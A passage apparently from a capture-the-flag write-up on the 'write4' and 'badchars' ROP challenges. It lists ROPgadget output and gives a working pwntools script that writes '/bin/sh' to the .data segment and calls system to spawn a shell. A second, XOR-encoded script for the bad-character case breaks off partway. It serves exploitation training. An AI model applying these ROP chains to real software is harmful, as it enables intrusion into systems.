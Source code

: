 We need to pass string like `cat flag` of `/bin/sh` to the `system` function. Continue to run `ROPGadget`, we can find two interesting instructions:
```
0x0000000000400890 : pop r14 ; pop r15 ; ret
0x0000000000400820 : mov qword ptr [r14], r15 ; ret
0x0000000000400893 : pop rdi ; ret
```

First, we used first two instruction to write `/bin/sh` to *.data* segement, which has writeable fixed address (0x601050).

Finally, we return the address to rdi and directly go to `0x400810`:
```python
from pwn import *
dataSeg = p64(0x601050)
preRegister = p64(0x400890)
writeData = p64(0x400820)
writeRdi = p64(0x400893)
execute = p64(0x400810)
offset = 40

shellcode = ''
shellcode += preRegister + dataSeg + '/bin/sh\x00' 
shellcode += writeData
shellcode += writeRdi + dataSeg
shellcode += execute

bin = process('write4')
bin.sendline(offset*'A' + shellcode)
bin.interactive()
```

## badchars

The task is identical to the previous one, despite filtering several characters. Gadget:
```
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
0x0000000000400b3b : pop r12 ; pop r13 ; ret
0x0000000000400b39 : pop rdi ; ret
```

Becuase several characters are banned, we need to encrypt our payload to pass it to the stack. XOR is a common encryption method. Now, let's see how to decrypt:
```
0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
0x0000000000400b40 : pop r14 ; pop r15 ; ret
```
Therefore, we can decrypt our string byte by byte.

The remaining things like return to system, finding .data address, and so on are identical to previous step, we can write script now:
```python
from pwn import *
dataAdd = 0x601050
dataSeg = p64(dataAdd)
preRegister = p64(0x0000000000400b3b)
writeData = p64(0x0000000000400b34)
writeRdi = p64(0x0000000000400b39)
execute = p64(0x00000000004009e8)
offset = 40
decrypt = ""

badchars = [0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73]
xornum = [0x1]*8
num = 0
sh = ""

```
